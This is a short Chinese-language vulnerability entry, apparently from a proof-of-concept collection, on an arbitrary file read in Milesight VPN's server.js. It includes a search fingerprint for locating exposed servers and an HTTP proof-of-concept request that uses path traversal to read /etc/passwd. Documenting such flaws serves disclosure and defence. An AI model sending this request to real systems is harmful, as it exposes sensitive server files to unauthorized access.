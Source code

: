 # Milesight VPN server.js 任意文件读取漏洞

## 漏洞描述

MilesightVPN 是一款软件，可使 Milesight 产品的 VPN 通道设置过程更加简便，并可通过网络服务器界面监控连接状态。其中存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中敏感文件

## 漏洞影响

<a-checkbox checked>Milesight VPN</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"MilesightVPN"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1690730120459-2c1711c9-5ccc-4cbc-a31e-b150b491eece-20230811182007783.png)

验证POC

```http
GET /../etc/passwd HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](../../../.vuepress/public/img/1690730307132-26f4e9a2-dc98-4313-b836-e923f29be8f7.png)